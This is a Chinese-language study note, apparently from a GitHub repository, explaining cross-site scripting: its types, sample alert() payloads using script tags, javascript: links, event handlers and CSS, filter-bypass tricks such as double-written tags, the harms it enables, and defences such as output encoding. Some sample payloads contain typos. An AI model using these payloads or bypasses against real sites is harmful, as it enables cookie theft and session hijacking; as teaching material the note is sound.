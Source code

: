## XSS原理：
跨站脚本攻击（Cross Site Script），攻击者往web页面或者url里插入恶意JavaScript脚本代码，如果web应用程序对于用户输入的内容没有过滤，那么当正常用户浏览该网页的时候，恶意代码会被执行，从而达到恶意攻击正常用户的目的。

## 漏洞产生条件：
（1）用户可以控制的输入点</br>
（2）输入能返回到前端页面上被浏览器当成脚本语言解析执行

## XSS分类：
反射性XSS：存储区（URL）；插入点（HTML）</br>
存储型XSS：存储区（后端数据库）；插入点（HTML）</br>
DOM型XSS：存储区（URL/后端数据库/前端储存）；插入点（前端JavaScript）

## 利用方式：
### XSS平台：在线XSS平台或自己搭建的XSS平台
### beef软件
### XSS变形：
** 1.利用<>构造html/JS:<script>alert(/xss/)</script> **</br>

** 2.伪协议方式构造XSS：** </br>
<a href="javascript:alert(/xss/)>touch me</a></br>
<a href="javascript:alert(/xss/)>touch me</a></br>

** 3.事件利用：** </br>
<img src='./smile.jpg' onmouseover='alert(/xss/)'></br>
<input type="text" onkeydown="alert(/xss/)"></br>
<input type="text" onkeyup="alert(/xss/)"></br>
<input type="button" onclick="alert(/xss/)"></br>
<img src='#' onerror='alert(/xss/)'></br>
 
** 4.利用CSS触发XSS（过时）** </br>
行内样式</br>
<div style='backgroud-image:url(javascript(/xss/))'></br>
页内样式</br>
<style>=Body{backgroud-image:url(javascript(/xss/))}</style></br>
外部样式</br>
<link rel="stylesheet" type="text/css" href="./xss.css"><div>hello<div></br>

** 5.其他标签以及手法**</br>
<svg onload="alert(/xss/)"></br>
<input onfocus=alert(/xss/) autofocus></br>
### XSS绕过
1.大小写转换</br>
2.引号使用：HTML中对引号使用不敏感，但是过滤函数对引号很严格</br>
3.左斜杠（/）代替空格</br>
4.双写绕过：<scri<script>pt></br>
5.对标签属性值进行转码，用来绕过过滤</br>
6.拆分跨站</br>
7.css中的变形

## 漏洞危害：
1.窃取用户cookie，冒充用户身份进入网站</br>
2.键盘记录</br>
3.客户端信息探查</br>
4.XSS getshell</br>
5.劫持用户会话，执行任意操作</br>
6.刷流量，执行弹窗广告</br>
7.传播蠕虫病毒……

## 漏洞防御：
（1）使用XSS filter，过滤用户（客户端）提交的有害信息；</br>
（2）输入过滤，对所有用户输入的内容都有进行过滤；</br>
（3）输入验证，对用户提交的信息进行有效验证（是否包含合法字符、字符串长度限制、是否符合特殊格式要求等等）</br>
（4）输出编码（htmlspecialchars函数），HTML编码主要是用对应的HTML实体代替字符。
